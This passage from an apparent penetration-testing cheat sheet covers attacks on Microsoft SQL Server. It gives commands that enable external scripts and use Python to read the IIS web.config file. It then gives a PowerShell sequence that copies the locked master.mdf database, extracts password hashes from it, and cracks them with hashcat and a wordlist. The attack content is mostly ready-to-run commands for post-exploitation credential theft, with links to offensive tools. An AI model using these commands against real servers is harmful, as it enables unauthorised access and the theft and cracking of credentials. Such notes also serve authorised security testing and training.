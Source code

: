 * [https://docs.microsoft.com/en-us/sql/machine-learning/tutorials/quickstart-python-create-script?view=sql-server-ver15](https://docs.microsoft.com/en-us/sql/machine-learning/tutorials/quickstart-python-create-script?view=sql-server-ver15)
* [https://www.sqlshack.com/how-to-use-python-in-sql-server-2017-to-obtain-advanced-data-analytics/](https://www.sqlshack.com/how-to-use-python-in-sql-server-2017-to-obtain-advanced-data-analytics/)

Enable external scripts:

```sql
EXEC sp_configure 'external scripts enabled,1';
```

Run Python code:

```sql
EXEC sp_execute_external_script
@language=N'Python',
@script=N'
with open(''c:\\inetpub\\wwwroot\\web.config'', ''r'') as f:
    print(f.read())
'
```




## master.mdf

* [https://xpnsec.tumblr.com/post/145350063196/reading-mdf-hashes-with-powershell](https://xpnsec.tumblr.com/post/145350063196/reading-mdf-hashes-with-powershell)
* [https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes)
* [https://www.nucleustechnologies.com/blog/mdf-file-location-in-sql-server-2014-2016-2017/](https://www.nucleustechnologies.com/blog/mdf-file-location-in-sql-server-2014-2016-2017/)
* [https://github.com/BC-SECURITY/Empire/blob/master/empire/server/data/module_source/collection/Invoke-NinjaCopy.ps1](https://github.com/BC-SECURITY/Empire/blob/master/empire/server/data/module_source/collection/Invoke-NinjaCopy.ps1)
* [https://github.com/jschicht/RawCopy](https://github.com/jschicht/RawCopy)

```
PS > Invoke-NinjaCopy -Path "C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\DATA\master.mdf" -LocalDestination "C:\Windows\Temp\master.mdf"
PS > [Reflection.Assembly]::LoadFile("$pwd\OrcaMDF.RawCore.dll")
PS > [Reflection.Assembly]::LoadFile("$pwd\OrcaMDF.Framework.dll")
PS > . .\Get-MDFHashes.ps1
PS > Get-MDFHashes -mdf "C:\Windows\Temp\master.mdf"
$ hashcat -m 132 -O -a 0 -w 4 --session=mssql -o mssql.out mssql.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```




## C\# Examples

* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/MSSQL/Program.cs](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/MSSQL/Program.cs)
